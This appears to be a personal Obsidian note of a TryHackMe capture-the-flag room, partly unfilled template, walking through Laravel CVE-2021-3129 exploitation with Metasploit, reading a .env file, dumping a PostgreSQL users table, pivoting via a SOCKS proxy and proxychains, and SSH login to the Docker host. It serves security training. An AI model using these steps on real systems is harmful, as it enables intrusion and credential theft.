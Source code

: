 ```yaml
---
creation date: December 24th 2022
last modified date: December 24th 2022
aliases: []
tags: #🎌
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🎌  

# [[THM - [Day 9] Dock the halls]]  


# Resolution summary
- Text
- Text

## Improved skills
- skill 1
- skill 2

## Used tools
- [[nmap]]
- 

---

# Information Gathering
Scanned all TCP ports:
```bash
PORT      STATE    SERVICE
80/tcp    open     http
21241/tcp filtered unknown
```

Enumerated open TCP ports:
```bash
PORT      STATE  SERVICE VERSION
80/tcp    open   http    Apache httpd 2.4.54 ((Debian))
|_http-server-header: Apache/2.4.54 (Debian)
|_http-title: Curabitur aliquet, libero id suscipit semper
21241/tcp closed unknown
```

Enumerated Docker container: `proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 172.17.0.1`
```bash
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
443/tcp  closed https
5432/tcp closed postgresql
```

---

# Enumeration
## Port 80 (Apache)
### Laravel 8.26.1
- Located a CVE-2021-3129


---

# Exploitation
## RCE CVE-2021-3129
- Utilized Metasploit in order to execute this attack by searching for the exploit while in **msfconsole**.
	- Attack worked first try and got a shell open
	-  Upgraded the shell by backgrounding the app with `CTRL-Z`
		- `sessions -u -1` this will upgrade session 1
- After this we found `cat /var/www/.env` which indicates to a database we want to dump for credentials
	- Dumping it can be done with Metasploit
	1. While connected to the target machine we want to run `resolve webservice_database` this will show us the IP of the database
	2. Now we need to route traffic to this address so we background our session and run `route add 172.28.101.51/32 -1`
	3. Next is the dump which is done with msfconsole
		1. `use auxiliary/scanner/postgres/postgres_schemadump`
		2. `run postgres://postgres:postgres@172.28.101.51/postgres`
	4. Next is selecting a certain table from the dump
		1. `use auxiliary/admin/postgres/postgres_sql`
		2. `run postgres://postgres:postgres@172.28.101.51/postgres sql='select * from users'`
- Lastly we want to run a scan from the Docker container but since it doesn't have nmap we want to route a nmap scan to it
	1. Docker uses a hard coded IP of `172.17.0.1` so we add that to the route table of Metasploit
		1. `route add 172.17.0.1/32 -1`
	2.  Now we will start a **socks_proxy**
		1. `use auxiliary/server/socks_proxy`
		2. `run srvhost=127.0.0.1 srvport=9050 version=4a`
	3.  First we can check if the socks proxy is working with `curl --proxy socks4a://localhost:9050 http://172.17.0.1 -v` run from our attacking machine console
	4. Second is using [[proxychains]] in order to direct our nmap scan to run from the target docker container
		1. `proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 172.17.0.1`
- Finally we find that we have both an SSH and http port open
	1. We located credentials for user Santa before from the database dump so we try those creds but we do so from the Docker container
	2. `use auxiliary/scanner/ssh/ssh_login`
	3. `run ssh://santa_username_here:santa_password_here@172.17.0.1`
	4. Open the session for the SSH connection and we found our flag


---

# Lateral Movement to user
## Local Enumeration


## Lateral Movement vector


---

# Privilege Escalation
## Local Enumeration


## Privilege Escalation vector


---

# Trophy & Loot

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 24th 2022 (11:48 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
